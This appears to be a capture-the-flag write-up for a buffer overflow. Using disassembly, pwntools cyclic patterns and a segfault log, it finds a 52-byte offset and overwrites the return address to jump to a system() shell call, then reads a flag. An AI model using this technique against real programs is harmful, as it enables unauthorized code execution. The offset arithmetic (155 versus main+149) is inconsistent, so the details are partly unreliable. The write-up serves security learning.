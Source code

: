 

``main`` use return value from ``vuln`` to determine the final output. But return from ``vuln`` is not going to be ``true`` due to the logic below.


```
int good = 0;
  for (int i = 0; buf[i]; i++) {
  good &= buf[i] ^ buf[i];
}

return good

```

We need ``main`` to go to the branch that call ``system`` to launch a shell. How about we just jmp to the critical block of code?

```
080485df <main>:
 80485df:       8d 4c 24 04             lea    0x4(%esp),%ecx
 80485e3:       83 e4 f0                and    $0xfffffff0,%esp
 80485e6:       ff 71 fc                pushl  -0x4(%ecx)
 80485e9:       55                      push   %ebp
...

 8048674:       83 c4 10                add    $0x10,%esp
 8048677:       83 ec 0c                sub    $0xc,%esp
 804867a:       68 99 87 04 08          push   $0x8048799
 804867f:       e8 cc fd ff ff          call   8048450 <system@plt>
```

The ``system`` call starts at *0x804867a*, we can calculate the distance between ``main`` and the call, so the destination would be ``main+149``.

```
distance = 0x804867a-0x80485df = 155
```

The padding can be found by ``pwn.cyclic``, feed the program with *64* bytes of cyclic string.

```
>>> pwn.cyclic(64)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa'
```

Check segfault message in ``dmesg``, notice the ``6161616e`` part? The padding is ``52`` in this case.

```
segfault at 6161616e ip 000000006161616e sp 00000000ffc07c30 error 14 in libc-2.27.so[f7d69000+1d2000]
```
```
>>> pwn.cyclic_find(0x6161616e)
52
```

So the payload is ``52 bytes of garbage + address of system call block``.

```
payload = b'A'*52
payload += pwn.p32(elf.sym["main"]+149)

pr.sendline("cat flag.txt")
print(pr.readall(2).decode())
```
